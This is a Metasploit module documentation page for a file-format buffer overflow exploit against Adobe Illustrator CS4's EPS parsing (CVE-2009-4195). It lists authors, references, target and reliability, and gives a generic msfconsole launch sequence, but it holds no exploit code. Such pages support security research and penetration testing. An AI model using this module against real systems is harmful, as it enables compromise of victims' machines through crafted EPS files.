 ## Adobe Illustrator CS4 v14.0.0

Adobe Illustrator CS4 (V14.0.0) Encapsulated Postscript 
(.eps) overlong DSC Comment Buffer Overflow Exploit


## Module Name
exploit/windows/fileformat/adobe_illustrator_v14_eps

## Authors
* pyrokinesis
* dookie


## References
* http://cvedetails.com/cve/2009-4195/
* http://www.securityfocus.com/bid/37192
* http://www.osvdb.org/60632
* https://www.exploit-db.com/exploits/10281



## Targets
* Windows Universal


## Platforms
win

## Reliability
[Great](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use exploit/windows/fileformat/adobe_illustrator_v14_eps
msf exploit(adobe_illustrator_v14_eps) > show targets
   ... a list of targets ...
msf exploit(adobe_illustrator_v14_eps) > set TARGET <target-id>
msf exploit(adobe_illustrator_v14_eps) > show options
   ... show and set options ...
msf exploit(adobe_illustrator_v14_eps) > run
```
    
    